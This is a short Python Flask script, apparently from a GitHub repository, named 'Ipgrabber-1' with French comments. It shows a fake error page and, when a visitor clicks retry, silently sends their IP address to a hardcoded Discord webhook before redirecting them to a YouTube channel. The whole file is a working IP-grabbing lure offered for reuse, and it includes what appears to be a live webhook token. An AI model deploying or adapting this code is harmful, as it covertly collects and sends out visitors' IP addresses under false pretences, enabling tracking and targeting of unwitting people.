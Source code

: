 # Ipgrabber-1
from flask import Flask, render_template, request, redirect
import requests
import threading
import webbrowser

app = Flask(__name__)

# Fonction pour démarrer le serveur Flask dans un thread
def run_flask():
    app.run(debug=False)

# Démarrer le serveur Flask dans un thread
flask_thread = threading.Thread(target=run_flask)
flask_thread.start()

# URL du webhook Discord
webhook_url = 'https://discord.com/api/webhooks/1189581246829957180/aRFpdCSf9AgfhrzGP0F5cjWxu1lG5-hlejBf3se-7BISIbx4VRS6aD-jiiy4BwpHgqZo'  # Remplacez par votre URL de webhook

@app.route('/')
def index():
    return render_template('error_page.html')

@app.route('/retry')
def retry():
    # Récupération de l'adresse IP côté serveur
    user_ip = request.remote_addr

    # Envoi de l'adresse IP à un webhook Discord
    message = f"Adresse IP de l'utilisateur : {user_ip}"

    response = requests.post(webhook_url, json={'content': message})

    if response.ok:
        print('Adresse IP envoyée avec succès à Discord !')

    return redirect('https://www.youtube.com/@MythicalPlayer_')  # Redirection vers l'URL de votre choix

if __name__ == '__main__':
    # Ouvrir le navigateur avec l'URL du serveur Flask
    webbrowser.open('http://127.0.0.1:5000/')

    # Attendre que le thread Flask soit prêt avant de lancer la boucle principale
    flask_thread.join()

    # Boucle principale
    while True:
        pass
